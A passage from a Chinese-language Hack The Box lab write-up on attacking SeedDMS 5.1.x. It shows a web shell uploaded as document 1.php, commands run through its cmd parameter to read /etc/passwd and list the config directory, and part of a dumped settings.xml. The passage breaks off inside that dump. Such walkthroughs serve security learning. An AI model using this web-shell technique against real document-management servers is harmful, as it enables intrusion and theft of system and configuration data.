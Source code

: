 [![](https://p1.ssl.qhimg.com/t01562dee6e2efd3391.png)](https://p1.ssl.qhimg.com/t01562dee6e2efd3391.png)

添加成功以后，看一下`1.php`的文档id(URL中可一看到document_id=xxx)，接下来可以通过cmd传参执行远程命令了

```
http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd= 
#我的1.php文档ID是30 
#这里的“data”和“1048576”是保存上传文件的默认文件夹。
```

查看下`/etc/passwd`

[![](https://p1.ssl.qhimg.com/t01b7bc45e432ac36c7.png)](https://p1.ssl.qhimg.com/t01b7bc45e432ac36c7.png)

浏览目录文件在`/var/www/html/seeddms51x/conf`目录下发现了配置文件`settings.xml`

```
http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=ls /var/www/html/seeddms51x/conf
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ebb6a74d3d04744b.png)

**settings.xml**

```
&lt;pre&gt;&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;configuration&gt;
  &lt;site&gt;
    &lt;!-- siteName: Name of site used in the page titles. Default: SeedDMS
       - footNote: Message to display at the bottom of every page
       - printDisclaimer: if true the disclaimer message the lang.inc files will be print on the bottom of the page
       - language: default language (name of a subfolder in folder "languages")
       - theme: default style (name of a subfolder in folder "styles")
    --&gt;
    &lt;display siteName="SeedDMS" footNote="SeedDMS free document management system - www.seeddms.org" printDisclaimer="true" language="en_GB" theme="bootstrap" previewWidthList="40" previewWidthDetail="100" availablelanguages="" showFullPreview="false" convertToPdf="false" previewWidthMenuList="40" previewWidthDropFolderList="100" maxItemsPerPage="0" incItemsPerPage="0"&gt;  
    &lt;/display&gt;
    &lt;!-- strictFormCheck: Strict form checking. If set to true, then all fields in the form will be checked for a value. If set to false, then (most) comments and keyword fields become optional. Comments are always required when submitting a review or overriding document status.
       - viewOnlineFileTypes: files with one of the following endings can be viewed online (USE ONLY LOWER CASE CHARACTERS)
       - enableConverting: enable/disable converting of files
       - enableEmail: enable/disable automatic email notification
       - enableUsersView: enable/disable group and user view for all users
       - enableFullSearch: false to don't use fulltext search
       - enableLanguageSelector: false to don't show the language selector after login
       - enableClipboard: false to hide the clipboard
       - enableFolderTree: false to don't show the folder tree
       - expandFolderTree: 0 to start with tree hidden
       -                   1 to start with tree shown and first level expanded
       -                   2 to start with tree shown fully expanded     
       - stopWordsFile: path to stop word file for indexer
       - sortUsersInList: how to sort users in lists ('fullname' or '' (default))
    --&gt;   
```